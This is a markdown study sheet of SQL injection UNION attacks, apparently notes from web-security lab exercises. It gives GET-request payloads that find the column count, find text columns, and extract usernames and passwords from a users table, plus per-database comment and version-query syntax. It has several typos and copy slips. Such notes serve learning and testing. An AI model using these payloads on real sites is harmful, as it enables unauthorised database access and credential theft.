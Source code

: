 ### 1. SQL Injection UNION attack, determining the no of column

- __normal get request__
  - __`GET /filter?catergory=Gifts`__

- __check whether sql injection present or not__
  - __`GET /filter?catergory=Gifts'`__

- __Use UNION__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__



### 2. SQL Injection UNION attak, finding a column containing text

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'`__


- __Use UNION__
  - __`GET /filter?catergory=Pets'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__

- __Now you found there are three column__
  - __so now you need to find which of the column have string__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+'admin',NULL,NULL--`__
  - __If you are getting error then the column is not a string then go and test for the remaining colums__
  - > __Note: what string you are replacing by NULL the string definetly should be present in the column__


### 3. SQL Injection UNION Attack, retrieving multiple values in a single column

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'UNION+SELECT+NULL,NULL,username||'~'||password+FROM+users--`__








# Types of database

- __1. Oracle__
- __2. Microsft__
- __3. PostgreSQL__
- __4. MySQL__


### Database comments
- __1. Oracle      | `--comment`__
- __2. Microsft    | `--comment or /*comment*/`__
- __3. PostgreSQL  | `--comment or /*comment*/`__
- __4. MySQL       | `#comment or -- comment or /*comment*/`__


### Database version
- __1. Oracle      | `SELECT banner FROM v$version or SELECT version FROM v$instance`__
- __2. Microsft    | `SELECT @@version`__
- __3. PostgreSQL  | `SELECT version()`__
- __4. MySQL       | `SELECT @@version`__











